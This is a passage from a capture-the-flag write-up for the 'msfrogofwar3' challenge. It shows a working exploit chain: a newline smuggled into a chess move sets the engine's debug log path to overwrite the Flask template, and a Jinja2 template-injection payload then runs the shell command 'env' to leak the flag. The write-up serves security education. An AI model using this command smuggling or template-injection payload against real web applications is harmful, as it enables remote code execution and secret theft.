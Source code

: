 By writing to `/app/templates/index.html` we can get flask to render whatever was in the debug log file as a 
template. 
{% raw %}
Anything between `{{` and `}}` will be evaluated as a template expression.
{% endraw %}
Flask caches templates, so we would want to start a new instance of the flask application, and not view the webpage just yet.

After starting an instance we can send our moves to the server manually using a common [flask ssti payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) to run shell commands.
{% raw %}
```js
const socket = io("https://msfrogofwar3-uuid.be.ax"/);
socket.emit('move', '0000')
socket.emit('move', 'f7f6')
socket.emit('move', 'g7g5')
socket.emit('move', "e6e7\nsetoption name Debug Log File value /app/templates/index.html\n{{ ''.__class__.mro()[1].__subclasses__()[568]('env', shell=True, stdout=-1).communicate() }}\n")
```
{% endraw %}

{: .note }
Ensure you do not open the webpage until you have sent the payload, as the template will be cached and our custom debug log template will never be rendered.
{: .note }
Ensure you do not open the webpage until you have sent the payload, as the template will be cached and our custom debug log template will never be rendered.

This replaces the index.html template with the output of the command `env`. We can now view the webpage to see the output of the command giving us the flag.

{% raw %}
corctf{"Whatever you do, don't reveal all your techniques in a CTF challenge, you fool, you moron." - Sun Tzu, The Art of War}
{% endraw %}

### Summary

Overall this challenge only got four solves making it one of the harder..? challenges, and definitely one of the most unique. We got first blood after over 24 hours!
